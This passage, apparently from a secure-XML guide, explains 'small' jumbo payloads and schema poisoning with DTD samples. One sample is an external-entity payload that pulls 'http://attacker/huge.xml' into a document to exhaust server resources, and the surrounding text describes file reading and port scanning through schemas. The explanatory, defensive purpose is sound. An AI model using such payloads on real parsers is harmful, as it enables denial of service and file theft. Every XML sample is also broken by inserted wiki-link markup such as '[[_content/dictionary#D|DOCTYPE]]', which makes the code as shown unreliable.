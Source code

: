 ##### "Small" Jumbo Payloads¶
The following example is a very small document, but the results of processing this could be similar to those of processing traditional jumbo payloads. The purpose of such a small payload is that it allows an attacker to send many documents fast enough to make the application consume most or all of the available resources:
<?xml version="1.0"?>
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ENTITY]] file [[_content/dictionary#S|SYSTEM]] "http://attacker/huge.xml" >
]>
<root>&file;</root>

#### Schema Poisoning¶
When an attacker is capable of introducing modifications to a schema, there could be multiple high-risk consequences. In particular, the effect of these consequences will be more dangerous if the schemas are using [[_content/dictionary#D|DTD]] (e.g., file retrieval, denial of service). An attacker could exploit this type of vulnerability in numerous scenarios, always depending on the location of the schema.
##### Local Schema Poisoning¶
Local schema poisoning happens when schemas are available in the same host, whether or not the schemas are embedded in the same [[_content/dictionary#X|XML]] document.
###### Embedded Schema¶
The most trivial type of schema poisoning takes place when the schema is defined within the same XML document. Consider the following, unknowingly vulnerable example provided by the W3C :
<?xml version="1.0"?>
<![[_content/dictionary#D|DOCTYPE]] note [
 <![[_content/dictionary#E|ELEMENT]] note (to,from,heading,body)>
 <!ELEMENT to (#[[_content/dictionary#P|PCDATA]])>
 <!ELEMENT from (#PCDATA)>
 <!ELEMENT heading (#PCDATA)>
 <!ELEMENT body (#PCDATA)>
]>
<note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend</body>
</note>

All restrictions on the note element could be removed or altered, allowing the sending of any type of data to the server. Furthermore, if the server is processing external entities, the attacker could use the schema, for example, to read remote files from the server. This type of schema only serves as a suggestion for sending a document, but it must contain a way to check the embedded schema integrity to be used safely. Attacks through embedded schemas are commonly used to exploit external entity expansions. Embedded [[_content/dictionary#X|XML]] schemas can also assist in port scans of internal hosts or brute force attacks.
###### Incorrect Permissions¶
You can often circumvent the risk of using remotely tampered versions by processing a local schema.
<![[_content/dictionary#D|DOCTYPE]] note [[_content/dictionary#S|SYSTEM]] "note.dtd">
<note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend</body>
</note>
